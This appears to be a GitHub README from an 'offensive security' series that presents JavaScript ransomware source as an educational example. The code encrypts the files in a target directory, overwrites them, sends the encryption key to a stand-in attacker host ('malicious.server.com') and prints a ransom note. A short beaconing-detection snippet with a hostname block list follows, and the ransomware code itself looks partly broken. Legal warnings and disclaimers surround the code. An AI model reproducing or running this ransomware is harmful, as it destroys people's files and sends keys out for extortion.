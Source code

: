 
# Ransy - Code in JavaScript (Example)

##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings for Offensive Security (update 02/2023)

> [!WARNING]
> Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this information responsibly and only on networks you have permission to access.

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.

## Example
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');
var https = require('https');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var cipher = crypto.createCipher('aes-256-cbc', encryptionKey);
  var encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Send beacon with encryption key (for demonstration purposes only)
var beaconData = JSON.stringify({ key: encryptionKey });
var options = {
  hostname: 'malicious.server.com',
  port: 443,
  path: '/beacon',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': beaconData.length
  }
};

var req = https.request(options, res => {
  console.log(`Beacon sent with status code: ${res.statusCode}`);
});

req.on('error', error => {
  console.error(`Error sending beacon: ${error}`);
});

req.write(beaconData);
req.end();

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
Contact us at malicious@server.com to get the decryption key.
`;

console.log(ransomNote);
```

## Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole.

## Detecting Fallback and Beaconing Mechanisms
Ransomware often includes fallback mechanisms and beaconing to ensure it can still operate if initial commands fail. Here are some examples to detect such activities:

```javascript
// Detect beaconing attempts
var detectBeaconing = function() {
  var knownBeacons = ['malicious.server.com', 'another.malicious.com'];
  var networkRequests = getNetworkRequests(); // Hypothetical function to get network requests

  networkRequests.forEach(request => {
    if (knownBeacons.includes(request.hostname)) {
      console.warn(`Potential beacon detected to: ${request.hostname}`);
    }
  });
};

detectBeaconing();
```

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues for this script are not accepted as it is intended for educational purposes only and not for production use. However, you are welcome to make a Pull Request (PR) for contributions.

> [!WARNING]
> Exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges.

## Your Support
If you find this project useful and want to support it, there are several ways to do so:

- If you find the white paper helpful, please ⭐ it on GitHub. This helps make the project more visible and reach more people.
- Become a Follower: If you're interested in updates and future improvements, please follow my GitHub account. This way you'll always stay up-to-date.
- Learn more about my work: I invite you to check out all of my work on GitHub and visit my developer site https://volkansah.github.io. Here you will find detailed information about me and my projects.
- Share the project: If you know someone who could benefit from this project, please share it. The more people who can use it, the better.
**If you appreciate my work and would like to support it, please visit my [GitHub Sponsor page](https://github.com/sponsors/volkansah). Any type of support is warmly welcomed and helps me to further improve and expand my work.**

Thank you for your support! ❤️

##### Copyright S. Volkan Kücükbudak

### License
This project is licensed under the MIT - see the [LICENSE](LICENSE) file for details.
